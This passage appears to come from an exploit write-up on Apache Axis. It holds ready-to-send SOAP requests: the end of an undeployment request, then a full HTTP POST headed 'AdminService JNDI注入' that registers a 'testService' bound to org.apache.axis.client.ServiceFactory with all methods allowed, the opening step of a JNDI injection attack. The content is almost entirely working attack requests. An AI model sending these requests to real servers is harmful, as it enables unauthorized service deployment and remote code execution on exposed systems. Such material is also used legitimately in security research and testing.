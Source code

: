 ```
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <undeployment xmlns="http://xml.apache.org/axis/wsdd/">
      <service name="randomService"/>
      <handler name="RandomLog"/>
      <service name="jndiService"/>
    </undeployment>
  </soapenv:Body>
</soapenv:Envelope>
```

### AdminService JNDI注入

注册服务：

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 746

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soapenv:Body>
    <ns1:deployment xmlns:ns1="http://xml.apache.org/axis/wsdd/" xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
      <ns1:service name="testService" provider="java:RPC">
        <ns1:parameter name="className" value="org.apache.axis.client.ServiceFactory"/>
        <ns1:parameter name="allowedMethods" value="*"/>
      </ns1:service>
    </ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![image-20230630163319405](images/image-20230630163319405.png)
